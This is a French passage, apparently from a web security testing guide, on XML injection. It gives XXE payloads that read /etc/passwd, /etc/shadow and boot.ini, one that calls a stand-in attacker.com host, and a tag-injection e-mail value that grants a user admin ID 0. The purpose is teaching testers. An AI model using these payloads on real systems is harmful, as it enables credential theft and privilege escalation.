 Ce test va faire planter le serveur web (sur un système UNIX), si
l'analyseur XML tente de substituer l'entité avec le contenu du fichier
/dev/random.

D'autres tests utiles :

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///etc/passwd"``
 ``>]><foo>&xxe;</foo>` `<?xml``   ``version="1.0"``
 ``encoding="ISO-8859-1"?>` `<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``
 ``foo``   ``ANY``   ``>` `<!ENTITY``   ``xxe``   ``SYSTEM``
 ``"file:///etc/shadow"``   ``>]><foo>&xxe;</foo>` `<?xml``
 ``version="1.0"``   ``encoding="ISO-8859-1"?>` `<!DOCTYPE``   ``foo``
 ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>` `<!ENTITY``   ``xxe``
 ``SYSTEM``   ``"file:///c:/boot.ini"``   ``>]><foo>&xxe;</foo>`
`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>` `<!DOCTYPE``
 ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>` `<!ENTITY``
 ``xxe``   ``SYSTEM``   ``"http://www.attacker.com/text.txt"``
 ``>]><foo>&xxe;</foo>`**

### Injections de balises

Une fois que la première étape est accomplie, le testeur possède
quelques informations sur la structure du document XML. Il va ensuite
pouvoir essayer d'injecter des données et balises XML. L'exemple suivant
décrit une attaque d'escalade de privilèges.

Considérons l'application vue précédemment. En insérant les valeurs
suivantes :

**`Username:``   ``tony`**
**`Password:``   ``Un6R34kb!e`**
**`E-mail:``
 ``s4tan@hell.com`</mail><userid>`0`</userid><mail>`s4tan@hell.com`**

l'application va construire un nouveau noeud et l'ajouter à la base de
données XML :

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>` `<users>`
`<user>` `<username>gandalf</username>` `<password>!c3</password>`
`<userid>0</userid>` `<mail>gandalf@middleearth.com</mail>` `</user>`
`<user>` `<username>Stefan0</username>` `<password>w1s3c</password>`
`<userid>500</userid>` `<mail>Stefan0@whysec.hmm</mail>` `</user>`
`<user>` `<username>tony</username>` `<password>Un6R34kb!e</password>`
`<userid>500</userid>`
`<mail>s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com</mail>`
`</user>` `</users>`**

Le fichier XML résultant est bien formé. De plus, il est probable que,
pour l'utilisateur tony, la valeur associée à la balise userid soit
celle qui apparît en dernier, c'est-à-dire 0 (l'ID de l'administrateur).
En d'autres mots, nous avons injecté un utilisateur avec les privilèges
d'administration.
